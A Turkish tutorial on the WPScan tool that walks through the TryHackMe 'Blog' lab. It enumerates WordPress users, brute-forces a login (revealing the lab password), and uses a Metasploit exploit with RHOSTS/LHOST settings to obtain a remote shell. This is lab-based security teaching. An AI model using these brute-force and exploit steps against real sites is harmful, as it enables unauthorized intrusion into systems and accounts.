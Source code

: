 # Wpscan

<figure><img src="../assets/wpscan/wpscan_logo.png" alt=""><figcaption></figcaption></figure>

Wpscan açık kaynak kodlu geliştirilmiş ve terminalde çalıştırılan bir araçtır. WordPress kullanan sitelerde tarama yapmak için kullanılır.

WordPress siteleri hakkında temel bilgileri ve varsa güvenlik zafiyetleri hakkında bilgi verir. Kali Lİnux üzerinde yüklü olarak gelir.&#x20;

Biraz Wpscan aracının yapabildiklerinden bahsedelim:

* Tema taraması
* Eklenti taraması
* Brute Force
* Dizin taraması vb.

Eğer başka bir dağıtım kullanıyorsanız aşşağıdaki kod ile Wpscan aracınızı indirebilirsiniz.

```
gem install wpscan
```

Aracımızın sahip olduğu parametreleri görmek için şu komutu kullanıyoruz:

```
wpscan -h
```

<figure><img src="../assets/wpscan/wpscanfirst.png" alt=""><figcaption></figcaption></figure>

Bir web sitesi üzerinde tarama gerçekleştireceğimiz için bir url parametresine ihtiyacımız var. `--url` parametresiyle test edeceğimiz web sitesini parametre olarak veriyoruz.

Ayrıca aracın hangi türde bir tarama yapacağından bahsetmemiz lazım bunun içinde `--enumerate` parametresini kullanıyoruz.

\--enumerate parametresiyle seçenekler vermemiz lazım:

* t : Popüler temaları tarar
* vt : Zafiyetli temaları tarar
* p : Popüler eklentileri tarar
* vp : Zafiyetli eklentileri tarar
* ap : Bütün eklentileri tarar

Verilen --url parametresine göre popüler temaları tarar:

```
wpscan --url <ip/url> --enumerate t
```

\-vt parametresiyle zafiyetli temaları tarar:

```
wpscan --url <ip/url> --enumerate vt
```

\-p parametresiyle popüler eklentileri tarar:

```
wpscan --url <ip/url> --enumerate p
```

\-vp parametresiyle zafiyetli eklentileri tarar:

```
wpscan --url <ip/url> --enumerate vp
```

\-at parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate at
```

\-ap parametresiyle bütün temalarda arama yapar:

```
wpscan --url <ip/url> --enumerate ap
```

Wpscan aracımızı daha iyi tanımak ve kullanabilmek için [Try Hack Me Blog](https://tryhackme.com/r/room/blog) odasında kullanacağım. Öncelikle web sitemizi çalıştırıyoruz. Öncelikle Try Hack Me tarafından bana verilen Ip adresini /etc/hosts altındaki dosyaya ekliyorum.

<figure><img src="../assets/wpscan/wpscanEtc.png" alt=""><figcaption></figcaption></figure>

Sonrasında tarayıcımdan blog.thm adresine gidiyorum. Ve sitede gezinirken en alt tarafta sitenin WordPress ile geliştirildiğine dair bir yazı yer alıyor.

<figure><img src="../assets/wpscan/wordpress.png" alt=""><figcaption></figcaption></figure>

Wpscan aracımız ile site üzerinde tarama yapabiliriz. Öncelikle zafiyetli eklentiler için bir tarama yapalım bunun için şu komutu yazıyoruz:

```
wpscan --url blog.thm --enumerate vp
```

Bu sorgunun sonucu olarak yararlı bir şey çıkmıyor. Var olan kullanıcıları listeleyeim ve sonrasında brute force deneyelim.&#x20;

```
wpscan --url blog.thm --enumerate u
```

Bu işlemden sonra karşımıza şöyle bir sonuç çıkıyor.

<figure><img src="../assets/wpscan/wpscanU.png" alt=""><figcaption></figcaption></figure>

2 tane kullanıcımız var Karen Wheeler ve Bill Joel. Bunların kullanıcı adları sırasıyla kwhell ve bjoel. Kullanıcı adlarını bulduğumuza göre login ekranına brute force deneyelim. Öncelikle kwhell kullanıcısı için bir komut yazacağım. Eğer şifreyi bulamazsak bjoel kullanıcısı içinde bir komut yazacağım.&#x20;

```
wpscan --url blog.thm --usernames kwheel --passwords <sifre.txt>
```

Bu işlem sonucunda geçerli bir şifre elde ediyoruz.

<figure><img src="../assets/wpscan/wpscanPass.png" alt=""><figcaption></figcaption></figure>

`kwheel - cutiepie1` bu bilgiler ile giriş yapalım ve bakalım sonrasında neler yapabiliyoruz.&#x20;

<figure><img src="../assets/wpscan/wpscanlogin.png" alt=""><figcaption></figcaption></figure>

Giriş yaptıktan sonra karşımıza ektra bir şey çıkmıyor. Web sitesi özelinde temel işle yapabiliyoruz. Bizim sunucuda olan dosyalarla işimiz var. WordPress'in eski sürümlerinde zafiyet olabilir ve biz bu zafiyeti kullanabiliriz. Zafiyetleri görmek için yukarıda yaptığımız `wpscan --url blog.thm --enumerate vp` komutundan biraz daha farklı bir şey yazacağız. Yukarıdaki gibi bir komut yazarsak Wpscan bize zafiyetleri göstermiyor.&#x20;

Bize zafiyetleri göstermesini istiyorsak [Wpscan](https://wpscan.com/profile/) adresinden bize sağlanan token değerini parametre olarak vermemiz gerekiyor.&#x20;

```
wpscan --url blog.thm --enumerate vp --api-token <token>
```

Bu kod sonrasında sistemden şöyle bir çıktı almamız sağlar.&#x20;

<figure><img src="../assets/wpscan/wpscanvuln.png" alt=""><figcaption></figcaption></figure>

Çıktı olarak 70 tane zafiyetin olduğunu gösteriyor. WordPress sürümünü de öğrendikten sonra msfconsole üzerinden zafiyet araması yapabiliriz.

<figure><img src="../assets/wpscan/wpscanmsf.png" alt=""><figcaption></figcaption></figure>

Karşımızı bu sonuçlar çıkıyor. `use 0` diyerek payloadımı seçiyorum. Sonrasında payloadın bize sunduğu ayarları görmek için `show options` diyorum.&#x20;

<figure><img src="../assets/wpscan/wpmsfset.png" alt=""><figcaption></figcaption></figure>

Sırasıyla şu ayarlamaları yapıyorum.&#x20;

<pre><code>set PASSWORD cutiepie1
<strong>set RHOSTS 10.10.154.220 // THM odasının çalıştığı IP adresini veriyoruz
</strong>set USERNAME kwheel
set LHOST 10.6.63.226  // THM odasına bağlandığımız IP adresi
run
</code></pre>

Run komutuyla birlikte exploitimiz çalışmaya başlıyor. Buradaki amacımız var olan bir zafiyeti sömürerek shell almaya çalışıyoruz.

<figure><img src="../assets/wpscan/wpscanshell.png" alt=""><figcaption></figcaption></figure>

Ve evet shell aldık, sistem üzerinde komutlar çalıştırabiliyoruz.&#x20;
